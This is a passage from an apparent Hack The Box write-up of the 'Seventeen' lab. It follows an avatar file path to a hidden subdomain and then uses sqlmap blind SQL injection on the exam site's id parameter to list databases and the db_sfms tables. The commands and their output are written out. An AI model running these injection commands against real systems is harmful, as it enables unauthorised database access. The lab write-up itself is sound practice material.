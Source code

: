 Instead of the password hash, I focused on `avatar` field.
Also, I don't really have any login page to test the credentials for now.

Given the usual subdomain location is `/var/www/{vhost}`, `../oldmanagement/files/avatar.png` implies that the location of the file might be outside of web root directory.

So, I added a new subdomain `oldmanagement.seventeen.htb` to `/etc/hosts`.

### http(8000) - oldmanagement.seventeen.htb

![](attachments/seventeen_9.png)

The request is redirected to port 8000.

I tried all found credentials, but none of them worked.
Instead, what I can try here is using SQLi vulnerability again with the same spot.

Let's use `sqlmap` this time.

##### SQLi again

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ sqlmap -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --dbs

...SNIP...

available databases [4]:
[*] db_sfms
[*] erms_db
[*] information_schema
[*] roundcubedb
```

I retrieved all existing DBs. And found 2 extra databases; `db_sfms`, `roundcubedb`
Given the name "School File Management System", I guessed that `db_sfms` is for the `oldmanagement.seventeen.htb`.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ sqlmap -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch -D db_sfms --tables

...SNIP...

Database: db_sfms
[3 tables]
+---------+
| storage |
| user    |
| student |
+---------+
```
